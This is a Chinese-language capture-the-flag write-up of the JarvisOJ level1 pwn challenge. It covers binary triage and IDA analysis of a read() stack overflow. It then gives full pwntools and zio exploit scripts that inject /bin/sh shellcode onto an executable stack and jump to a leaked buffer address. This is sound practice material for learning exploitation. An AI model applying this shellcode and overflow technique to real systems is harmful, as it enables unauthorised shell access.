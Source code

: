 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level1
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level1.80eacdcd51aca92af7749d96efad7fb5  
>  
>Address:  
>nc pwn2.jarvisoj.com 9877  
<!-- more -->


### 0x00 查看文件基本信息

```
file level1
checksec level1
```

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x00.png)

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x01.png)


### 0x01 在kali linux 2.0中执行程序
```
chmod a+x ./level1
./level1
```

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x02.png)


### 0x02 IDA中分析可执行文件

直接看C代码，很明显vulnerable_function就是溢出函数了

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x03.png)

跟进去果然read溢出

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x04.png)

看一下缓冲区，因为没有禁止栈执行，我们可以在栈区放置一段shellcode

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x05.png)


### 0x03 根据以上分析写成exploit

调用pwntools

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *
import re
distance = 0x88 + 4
shellcode = '\x31\xc0\x31\xdb\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x51\x52\x55\x89\xe5\x0f\x34\x31\xc0\x31\xdb\xfe\xc0\x51\x52\x55\x89\xe5\x0f\x34'
junk = "A" * (distance - len(shellcode))
# Io = process('.\level1')
Io = remote('pwn2.jarvisoj.com', 9877)
line = Io.readline()
line = re.findall(r":(.+)\?", line)
address = p32(int(line[0],16))
payload = shellcode + junk + address
Io.send(payload)
Io.interactive()
```

调用zio
```
#!/usr/bin/python
# -*- coding:utf8 -*-

import zio
distance = 0x88 + 4
shellcode = '\x31\xc0\x31\xdb\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x51\x52\x55\x89\xe5\x0f\x34\x31\xc0\x31\xdb\xfe\xc0\x51\x52\x55\x89\xe5\x0f\x34'
junk = "A" * (distance - len(shellcode))
# Io = zio.zio("./level1")
Io = zio.zio(("pwn2.jarvisoj.com", 9877))
line = Io.readline()
address = zio.l32(int(line[len("What's this:"):-2], 16))
payload = shellcode + junk + address
Io.write(payload)
Io.interact()
```

得到flag

![](/assets/img/writeup/pwn/2017-06-16-jarvisoj-level1/0x06.png)
